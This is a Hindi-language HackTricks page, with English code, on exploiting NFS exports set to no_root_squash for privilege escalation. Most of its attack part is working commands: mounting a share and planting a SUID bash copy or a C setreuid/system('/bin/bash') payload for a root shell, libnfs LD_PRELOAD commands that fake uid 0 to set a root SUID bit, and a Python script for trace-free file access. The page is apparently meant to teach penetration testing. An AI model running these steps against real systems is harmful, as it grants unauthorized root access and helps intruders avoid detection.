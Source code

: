 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


_ **/etc/exports** _ फ़ाइल को पढ़ें, यदि आप कुछ निर्देशिका पाते हैं जो **no\_root\_squash** के रूप में कॉन्फ़िगर की गई है, तो आप **एक क्लाइंट के रूप में** इसे **एक्सेस** कर सकते हैं और उस निर्देशिका के अंदर **लिख सकते हैं** **जैसे** कि आप मशीन के स्थानीय **रूट** थे।

**no\_root\_squash**: यह विकल्प मूल रूप से क्लाइंट पर रूट उपयोगकर्ता को NFS सर्वर पर रूट के रूप में फ़ाइलों तक पहुँचने का अधिकार देता है। और इससे गंभीर सुरक्षा परिणाम हो सकते हैं।

**no\_all\_squash:** यह **no\_root\_squash** विकल्प के समान है लेकिन **गैर-रूट उपयोगकर्ताओं** पर लागू होता है। कल्पना करें, आपके पास कोई उपयोगकर्ता के रूप में एक शेल है; /etc/exports फ़ाइल की जांच की; no\_all\_squash विकल्प मौजूद है; /etc/passwd फ़ाइल की जांच करें; एक गैर-रूट उपयोगकर्ता के रूप में अनुकरण करें; उस उपयोगकर्ता के रूप में एक suid फ़ाइल बनाएं (nfs का उपयोग करके माउंट करके)। कोई उपयोगकर्ता के रूप में suid को निष्पादित करें और विभिन्न उपयोगकर्ता बनें।

# Privilege Escalation

## Remote Exploit

यदि आपने इस भेद्यता को पाया है, तो आप इसका शोषण कर सकते हैं:

* **क्लाइंट मशीन में उस निर्देशिका को माउंट करना**, और **रूट के रूप में माउंट किए गए फ़ोल्डर के अंदर** **/bin/bash** बाइनरी की **कॉपी करना** और इसे **SUID** अधिकार देना, और **शिकार** मशीन से उस बाश बाइनरी को **निष्पादित करना**।
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **उस निर्देशिका को** एक क्लाइंट मशीन में माउंट करना, और **रूट के रूप में** माउंट किए गए फ़ोल्डर के अंदर हमारे संकलित पेलोड को कॉपी करना जो SUID अनुमति का दुरुपयोग करेगा, उसे **SUID** अधिकार देना, और **शिकार** मशीन से उस बाइनरी को **निष्पादित करना** (आप यहाँ कुछ [C SUID पेलोड्स](payloads-to-execute.md#c) पा सकते हैं)।
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
ध्यान दें कि यदि आप अपनी मशीन से पीड़ित मशीन तक एक **टनेल बना सकते हैं, तो आप इस विशेषाधिकार वृद्धि का शोषण करने के लिए दूरस्थ संस्करण का उपयोग कर सकते हैं, आवश्यक पोर्ट्स को टनलिंग करते हुए**।\
यहां दी गई चाल उस स्थिति के लिए है जब फ़ाइल `/etc/exports` **एक IP को इंगित करती है**। इस मामले में आप **किसी भी स्थिति में** **दूरस्थ शोषण** का उपयोग नहीं कर पाएंगे और आपको **इस चाल का दुरुपयोग करना होगा**।\
शोषण के काम करने के लिए एक और आवश्यक शर्त यह है कि **`/etc/export` के अंदर का निर्यात** **`insecure` ध्वज का उपयोग कर रहा होना चाहिए**।\
\--_मुझे यकीन नहीं है कि यदि `/etc/export` एक IP पते को इंगित कर रहा है तो यह चाल काम करेगी_--
{% endhint %}

## Basic Information

परिदृश्य में एक स्थानीय मशीन पर एक माउंटेड NFS शेयर का शोषण करना शामिल है, NFSv3 विनिर्देशन में एक दोष का लाभ उठाते हुए जो क्लाइंट को अपने uid/gid को निर्दिष्ट करने की अनुमति देता है, संभावित रूप से अनधिकृत पहुंच सक्षम करता है। शोषण में [libnfs](https://github.com/sahlberg/libnfs) का उपयोग शामिल है, जो NFS RPC कॉल के निर्माण की अनुमति देने वाली एक लाइब्रेरी है।

### Compiling the Library

लाइब्रेरी संकलन चरणों में कर्नेल संस्करण के आधार पर समायोजन की आवश्यकता हो सकती है। इस विशेष मामले में, fallocate syscalls को टिप्पणी की गई थी। संकलन प्रक्रिया में निम्नलिखित कमांड शामिल हैं:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Conducting the Exploit

यह एक्सप्लॉइट एक साधारण C प्रोग्राम (`pwn.c`) बनाने में शामिल है जो रूट पर विशेषाधिकार बढ़ाता है और फिर एक शेल निष्पादित करता है। प्रोग्राम को संकलित किया जाता है, और परिणामी बाइनरी (`a.out`) को suid रूट के साथ शेयर पर रखा जाता है, RPC कॉल में uid को फेक करने के लिए `ld_nfs.so` का उपयोग करते हुए:

1. **एक्सप्लॉइट कोड संकलित करें:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **शेयर पर एक्सप्लॉइट रखें और uid को फेक करके इसकी अनुमतियों को संशोधित करें:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **रूट विशेषाधिकार प्राप्त करने के लिए एक्सप्लॉइट निष्पादित करें:**
```bash
/mnt/share/a.out
#root
```

## Bonus: NFShell for Stealthy File Access
एक बार रूट एक्सेस प्राप्त होने के बाद, स्वामित्व को बदले बिना NFS शेयर के साथ इंटरैक्ट करने के लिए (निशान छोड़ने से बचने के लिए), एक Python स्क्रिप्ट (nfsh.py) का उपयोग किया जाता है। यह स्क्रिप्ट uid को उस फ़ाइल के uid से मेल खाने के लिए समायोजित करती है जिसे एक्सेस किया जा रहा है, जिससे शेयर पर फ़ाइलों के साथ इंटरैक्शन की अनुमति मिलती है बिना अनुमति समस्याओं के:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
चलाएँ जैसे:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
